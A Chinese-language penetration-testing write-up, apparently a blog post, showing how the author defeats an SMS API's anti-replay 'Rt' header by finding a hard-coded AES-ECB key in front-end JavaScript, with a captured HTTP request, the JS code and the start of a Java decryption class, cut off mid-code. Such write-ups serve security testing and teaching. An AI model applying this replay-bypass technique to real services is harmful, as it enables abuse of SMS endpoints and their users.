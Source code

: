 ![](https://mmbiz.qpic.cn/mmbiz_png/8QxXQzRARZnMAFzcbGuqblwTU2jiaDK0EMpKNMk4aibwpa7oSnzWTT9UZia81JRuYpSk7FvS6XPheaickP8V9kiarFw/640?wx_fmt=png "")  
  
登录框测试的思路已经烂熟于心，看我手到擒来。利用BURP代理抓包，讲究一个稳准。  
  
再重放一下数据包，突然发现重放数据包会提示410，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8QxXQzRARZnMAFzcbGuqblwTU2jiaDK0E5WibbkEr5e0y3Vc5gc2ReUFpcpIcQ6H0HYDU1vnoicssqDGhLTcViaRpQ/640?wx_fmt=png "")  
  
笔者测试过程中还比较好奇，怎么会这么自信把所有URL明文在前端展示呢，这里还是有防护的：  
```
POST /api/sms/sendsms HTTP/2
Host: xxx
Content-Length: 73
Sec-Ch-Ua: "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Authorization: Bearer null
Rt: /5asJSe+gKXuuIdOsOg6kw==
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Api-Version: 1.0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{"phone":"1888888881","smsTypes":2,"uniqueId":"1684756825417","code":""}
```  
  
  
  
通过对Header头进行分析，发现其中RT参数正是其中关键字段，主要用来防止数据包重放，现在就需要看看这个RT参数从何而来。  
经过对JS代码的分析，发现了如下代码：  
```
var aeskey2 = '1122334455667788';
xxxxx
function encryptRt(data) {
    var key = CryptoJS.enc.Utf8.parse(aeskey2);
    // 加密
    var encryptedData = CryptoJS.AES.encrypt(data, key, {
        mode: CryptoJS.mode.ECB,
        padding: CryptoJS.pad.Pkcs7
    });
    return encryptedData + '';
}
xxx
```  
  
经过对该代码的分析，发现Rt参数正是通过aes方式进行加密，并且获得其中的key和加密逻辑。  
  
接下来各显神通，笔者使用java撸了一份解密代码：  
```
import org.bouncycastle.jce.provider.BouncyCastleProvider;

import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.security.Security;
import java.util.Base64;

public class AESUtils {
    static {
        Security.addProvider(new BouncyCastleProvider());
    }

    public static String decryptData(String data, String key) throws Exception {
        byte[] keyBytes = key.getBytes("UTF-8");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
```